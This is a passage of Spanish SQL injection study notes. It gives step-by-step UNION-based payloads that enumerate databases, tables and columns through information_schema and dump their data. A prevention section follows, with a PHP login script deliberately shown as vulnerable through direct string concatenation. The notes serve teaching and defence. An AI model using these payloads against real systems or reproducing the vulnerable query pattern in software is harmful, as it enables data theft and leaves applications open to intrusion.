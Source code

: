 ```sql
' UNION SELECT schema_name, 2, 3, 4, 5 FROM information_schema.schemata-- -
```
Con concatenaciones
```sql
' UNION SELECT GROUP_CONCAT(schema_name), 2, 3, 4, 5 FROM information_schema.schemata-- -
```
##### #3: Recuperar las tablas y columnas de una DB concreta
Con esta query se recuperan las tablas
```sql
' UNION SELECT GROUP_CONCAT(table_name), 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema = '<Base de Datos>'-- -
```
Y con esta otra las columnas de una tabla
```sql
' UNION SELECT GROUP_CONCAT(column_name), 2, 3, 4, 5 FROM information_schema.columns WHERE table_schema = '<Base de Datos>' AND table_name = '<Tabla>'-- -
```
##### #4 : Recuperar los datos
```sql
' UNION SELECT GROUP_CONCAT(<Columna>, ':', <Columna>), 2, 3, 4, 5 FROM <Base de Datos>.<Tabla>-- -
```

### Mitigación y prevención
##### Prevención
Hay varias medidas para prevenir ataques de este tipo:
- Validación de entradas del usuario (sanitización) --> Es importante desconfiar de todo lo que entra al sistema desde inputs del usuario, ya que un atacante puede aprovechar esta falta de validación para vulnerar la aplicación.
- Firewalls que filtren las queries SQL maliciosas
```php
<?php
// CONEXIÓN A LA BD
$host = "localhost";
$user = "root";
$pass = "";
$db = "usuarios";
$conn = new mysqli($host, $user, $pass, $db);

// RECEPCIÓN DE DATOS SIN VALIDACIÓN
$username = $_POST['username'];
$password = $_POST['password'];

// 🚨 QUERY VULNERABLE - CONCATENACIÓN DIRECTA
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = $conn->query($query);

if ($result->num_rows > 0) {
    echo "Login exitoso!";
} else {
    echo "Credenciales incorrectas";
}
?>
```
